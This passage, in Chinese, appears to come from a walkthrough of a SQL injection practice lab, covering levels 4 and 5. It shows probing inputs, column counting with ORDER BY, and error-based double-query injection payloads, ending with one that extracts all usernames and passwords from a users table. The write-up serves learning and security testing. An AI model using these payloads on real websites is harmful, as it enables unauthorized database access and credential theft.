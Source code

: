 类比于第3关，报错信息给出的部分语句形如`"$id") LIMIT 0,1`。只需将第1关中的payload从`id=1'`改为`id=1")`即可，其余步骤同上。

## §2.5 第5关

先按正常流程试一遍：

- `id=1`，正常
- `id=1'`，报错，`Wrong syntax to use near ''1'' LIMIT 0,1' at line 1`
- `id=1' --+`，正常
- `id=1"`，正常

据此可推测，SQL语句中无双引号，且形如`'$id' LIMIT 0,1`。

`ORDER BY`爆列数为4：

```sql
id=1' ORDER BY 3 --+
=> SELECT ? FROM ? WHERE ID='1' ORDER BY 3 -- ' LIMIT 0,1
		# You are in...........
id=1' ORDER BY 4 --+
=> SELECT ? FROM ? WHERE ID='1' ORDER BY 4 -- ' LIMIT 0,1
		# Unknown column '4' in 'order clause'
```

尝试`SELECT`爆字段与列序的关系，结果未返回任何一个期望值，这说明返回值与数据库无关，是一个写死的值：

```sql
id=1’ and 1=2 union select 1,2,3 --+
		# You are in...........	(不是1,2,3种的任何一个)
```

这种情况下，输出正常只能告诉我们语句执行成功，不能输出我们想要的信息，只能通过输出报错了。以下步骤的原理详见[§3.1 双查询注入](#§3.1 双查询注入)一节：

```sql
id=1' union select 1,count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a --+
=> SELECT * FROM users WHERE id='1' union select 1,count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a -- ' LIMIT 0,1;
=> SELECT * FROM users WHERE id='1' union select 1,count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;
		--	Duplicate entry 'security0' for key 'group_key'
		我们构建的恶意payload:database()得到了执行.
```

其余步骤同上。

1' union select 1,count(*), concat((
select concat( (select group_concat(username) from security.users) , (select group_concat(password) from security.users) , floor(rand()*2) )
), floor(rand()*2))as a from information_schema.tables group by a



SELECT * FROM users WHERE id='1' union select 1,count(*), concat((
select concat( (select group_concat(username) from security.users) , (select group_concat(password) from security.users) , floor(rand()*2) )
), floor(rand()*2))as a from information_schema.tables group by a;

